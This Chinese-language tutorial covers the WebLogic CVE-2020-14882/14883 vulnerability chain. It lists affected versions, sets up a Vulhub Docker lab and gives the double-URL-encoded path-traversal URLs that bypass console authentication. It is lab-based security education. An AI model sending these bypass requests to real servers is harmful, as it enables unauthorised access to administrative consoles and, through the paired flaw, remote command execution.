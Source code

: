 ## Weblogic

Weblogic 未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

- CVE-2020-14882：允许未授权的用户绕过管理控制台的权限验证访问后台
- CVE-2020-14883：允许后台任意用户通过 HTTP 协议执行任意命令

这两个漏洞的组合利用，可以让攻击者以未授权的身份登录后台，然后通过 GET 请求在 Weblogic 服务器上远程执行命令。



💥  漏洞范围：

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.3.0
- WebLogic 12.2.1.4.0
- WebLogic 14.1.1.0.0



### 环境搭建

Vulhub 是一个漏洞测试靶场平台，利用 `docker compose` 可以一键启动漏洞测试靶场。

下载 [Vulhub](https://vulhub.org/) 到本地：`git clone https://github.com/vulhub/vulhub.git  `

进入到我们的目标漏洞位置：`cd vulhub/weblogic/CVE-2020-14882/`

查看当前的 `docker-compose.yml`：

```yaml
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018
   ports:
    - "7001:7001"
```

>  可以修改映射端口号

启动容器：`docker compose up -d`

访问 `http://YOUR_IP_ADDRESS:PORT/console`：

![](http://img.wukaipeng.com/2023/11/07-070126-2urR2E-image-20231107070126724.png)

停止容器：`docker compose stop`

删除容器：`docker compose down`

### CVE-2020-14882

访问：

- `http://YOUR_IP_ADDRESS:PORT/console/css/%252e%252e%252fconsole.portal`
- `http://YOUR_IP_ADDRESS:PORT/console/images/%252e%252e%252fconsole.portal`

其中 `%252e%252e%252f` 是 `../.` 进行两次 URL 编码，通过这个可以实现路径穿越，可未授权直接访问后台。
